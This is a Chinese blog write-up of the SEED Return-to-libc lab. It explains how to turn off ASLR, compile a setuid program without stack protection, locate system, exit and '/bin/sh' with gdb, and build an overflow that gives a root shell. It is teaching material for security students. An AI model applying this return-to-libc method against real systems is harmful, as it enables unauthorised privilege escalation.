 ```yaml
---

layout: post

title: 'Return-to-libc'

date: '2017-02-28'

header-img: "img/home-bg.jpg"

tags:
     - 逆向
     - 二进制漏洞
author: 'De4dCr0w'

---
```


### 实验步骤 ###
（1）初始化：
  
	$ su root  
	Password: (enter root password)  
	# /sbin/sysctl -w kernel.randomize_va_space=0  
	（关闭地址随机化）  

（2）编写exploit.c 文件，溢出程序的编写：（如下图）  

![](http://i.imgur.com/OID4jIH.png)  

（3）编译exploit.c文件，生成exploit文件，执行exploit,生成badfile文件  

	$ gcc -o exploit exploit.c
	$./exploit
	// create the badfile  

（4）编译stack.c文件  

	$ su root
	Password (enter root password)
	# gcc -o retlib -z execstack -fno-stack-protector -g retlib.c
	# chmod 4755 stack
	# exit
	-z execstack : 使填写在栈内的内容能过执行
	-fno-stack-protector : 关闭栈溢出保护，使栈可以被溢出
	-g : 可调试编译，使程序能够被调试  

（5）执行retlib，获得root权限  

	$./retlib
	// launch the attack by running the vulnerable program
	# <---- Bingo! You’ve got a root shell!


### 实验过程 ###

（1）寻找system，exit，“/bin/sh”的地址  

	gdb retlib
	
	(gdb) b main
	Breakpoint 1 at 0x80484bc: file retlib.c, line 20.
	(gdb) r
	Starting program: /home/seed/Lesson1/retlib 

	Breakpoint 1, main (argc=1, argv=0xbffff414) at retlib.c:20
	20	    badfile = fopen("badfile", "r");
	(gdb) p system     （寻找调用system的地址）
	$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
	(gdb) find system,+9999999,"/bin/sh"  （寻找“/bin/sh”字符串的地址）
	0xb7f80fb8
	warning: Unable to access target memory at 0xb7fc74c0, halting search.
	1 pattern found.
	(gdb) p exit    （寻找调用exit的地址）
	$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
	(gdb) p setuid  （寻找调用setuid的地址）
	$3 = {<text variable, no debug info>} 0xb7ed8e40 <setuid>
	(gdb) 

（2）找到bof函数的返回地址，反汇编bof函数  

	(gdb) disassemble bof
	Dump of assembler code for function bof:
	0x08048484 <+0>:	push   %ebp
	0x08048485 <+1>:	mov    %esp,%ebp
   	0x08048487 <+3>:	sub    $0x28,%esp
  	0x0804848a <+6>:	lea    -0x14(%ebp),%eax
 	0x0804848d <+9>:	mov    0x8(%ebp),%edx
   	0x08048490 <+12>:	mov    %edx,0xc(%esp)
   	0x08048494 <+16>:	movl   $0x28,0x8(%esp)
   	0x0804849c <+24>:	movl   $0x1,0x4(%esp)
   	0x080484a4 <+32>:	mov    %eax,(%esp)
   	0x080484a7 <+35>:	call   0x8048380 <fread@plt>
   	0x080484ac <+40>:	mov    $0x1,%eax
   	0x080484b1 <+45>:	leave  
   	0x080484b2 <+46>:	ret    
	End of assembler dump.

　　这里eax（-0x14(%ebp)）存的是buffer[0]的地址，且0x14 = 20,说明ebp和buffer[0]的地址相差20个字节，所以跳转地址就应该填在buffer[24]~buffer[27]的位置，所以只要把system的调用地址填在这，就可以跳转去执行system函数了，然后依次去执行exit函数(buffer[28]~buffer[31])  

#### 这里”/bin/sh” 为什么放在 exit  函数后面？ ####
解答：

	0x080484b1 <+45>: leave  

相当于语句:  

	pop %ebp
	mov %ebp, %esp

然后执行：  

	0x080484b2 <+46>: ret 
	This instruction simply pops the return address out of the stack, 
	and then jump to the return address. 

leave 指令 pop ebp后栈内 esp 指向 return address，ret 指令跳转到 system()，执行system函数时，先push函数参数再执行call，而call的时候会将返回地址push到栈上，所以我们在构建栈帧的时候，system函数的地址与参数的地址之间需要填充一个虚构的返回函数，这里我们填充exit函数地址。

![](http://i.imgur.com/5O4z4dx.png)

（图为网上一道pwn题的思路，可以帮助理解，和本实验的地址不一样）

我们可以利用Return-to-libc的方法构建栈帧绕过NX选项：   
　　NX即No-eXecute（不可执行）的意思，NX选项会将进程特殊区域的内存标记为不可执行，当CPU跳转到这些区域执行代码的时候便会产生异常，以阻止缓冲区溢出时直接在栈上执行恶意代码。  
　　gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加-z execstack参数。在Windows下，类似的概念为DEP（Data Execution Prevention，数据执行保护），在最新版的Visual Studio中默认开启了DEP编译选项

我们可以使用checksec.sh脚本可以方便的查看可执行程序是否启用了NX，checksec脚本的下载地址为：[http://www.trapkit.de/tools/checksec.sh](http://www.trapkit.de/tools/checksec.sh "checksec脚本")  

实验地址：[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Return_to_libc/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Return_to_libc/ "实验地址")

